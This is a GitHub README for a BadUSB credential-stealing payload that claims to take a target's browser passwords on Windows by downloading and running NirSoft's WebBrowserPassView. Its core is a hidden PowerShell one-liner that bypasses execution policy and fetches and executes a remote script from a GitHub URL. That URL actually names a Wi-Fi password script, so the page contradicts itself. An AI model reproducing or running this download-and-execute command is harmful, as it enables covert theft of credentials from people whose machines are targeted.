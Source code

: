 # Browser Windows Password - BadUSB ✅

A script used to stole target browser Passwords.


**Category**: Exfilarate,Credentials

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target browser Passwords.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Creates a directory named "temp"
* Downloads a file from the specified URL (NirSoft's WebBrowserPassView utility)
* Runs the WebBrowserPassView.exe program

All
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Credentials/WWifiPasswords/W-Wifi-Passwords.ps1').Content"
```

